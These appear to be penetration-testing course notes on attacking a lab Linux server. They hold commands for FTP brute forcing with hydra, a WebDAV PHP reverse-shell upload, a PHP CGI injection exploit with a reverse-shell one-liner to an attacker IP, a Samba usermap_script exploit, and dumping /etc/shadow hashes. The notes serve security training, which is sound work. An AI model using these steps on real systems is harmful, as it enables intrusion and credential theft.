 # 8 - Linux Blackbox Exploitation

## <mark style="color:red;">Linux Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead was pleased with your ability to gain access to the Windows Server target and has assigned you to perform a pentest on a Linux server on the client's network.
* Your primary objectives are:
  * Identify services running on the target
  * Identify vulnerabilities within the services
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/hosts # identify target ip addr, ping for connectivity.
nmap -sV -p1-10000 $ip -oN nmap_10k.txt # scan target.
nc -nv $ip <port> # banner grabbing ports/services nmap was unable to identify.
# in the process we were able to connect to a bind shell listener on the target on port 1524. Always perform banner grabbing with nc.
root@24wfww> ls
cat /etc/*release # distribution version.
cd /home # view users.

```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting vsftpd</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# anonymous access worked.
# searchsploit vsftpd, we tried running the exploit module, but didn't work. the backdoor was disabled by the admin (port 6200 was closed).

# another way is to perform bruteforce.
# an easy way is to exploit SMTP, which is an easy way of discovering user accts in a target PC, which can help us narrow down out bruteforce attack.

# lets do a bruteforce on SMTP and identify user accts using Metasploit.
search smtp_enum
use 0, you can modify the user wordlist, set RHOSTS, run
# we can utiize the list and narrow our bruteforce for other service like FTP.

# FTP bruteforce
hydra -l service -P ...unix_users.txt $ip ftp # we get a password.
ftp $ip 21 # login to ftp.
cd / # go to the root and look around. 

# we can now look at the WebDAV, to upload a php file and gain reverse shell.
ls /usr/share/webshells/php/php-reverse-shell.php # we can use the imbuilt php reverse shell in kali, copy it, modify it and upload to the host.
nano php-rev-shell.php # modify it.

nc -nvlp 1234 # setup a nc listener

# login to ftp.
# we can cd to the dav directory to upload the payload.
cd /var/www/dav
put php-shell.php
# refresh the browser, then run the payload, we receive a borne shell sessio on our listener.
/bin/bash -i # get a bash shell.
whoami
ls
cd /var/www
ls # now we have access to the www dir, as opposed to when we were using ftp access.
```
{% endcode %}

#### <mark style="color:yellow;">2 - Targeting PHP</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# get target ip.
nmap -sV -sC -p80 $ip 
$ip # view webpage in the browser.

$ip/phpinfo.php # view the php version.
searchsploit php cgi # search got exploit. php versions lower than 5.3.12 are vulnerable to the "CGI Argument Injection".

# we will use mannual method to exploit this vuln.
searchsploit -m <exploitID> # to copy over the exploit script to current dir.
searchsploit -m 18836
nano 18836.py # view.
# replace the php code in the cgi_exploit function with a php one liner reverse shell code. Goto revshells.com to generate the code. Save and execute the script. if it dosent work, you might want to change the "descriptors" values from 3 to 4. We now have access to the "www-data" user.

pwn_code = """<?php  $sock=fsockopen("10.10.80.2",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""

cat /etc/*release # distribution version.
```
{% endcode %}

#### <mark style="color:yellow;">3 - Targeting Samba</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p445 $ip

# using Metasploit to get the actual Samba version.
search smb_version
use 0, run # gives us the samba version.

searchsploit samba 3.0.20 # use 
use explit/multi/samba/usermap_script
exploit # we get a cmd reverse shell.
ls -al
cat /etc/*issue
cat /etc/*release
ctrl+z
sessions -u 1 # upgrade to a meterpreter session.
# and also root access.
cat /etc/passwd
cat /etc/shadow # dump hashes.
```
{% endcode %}



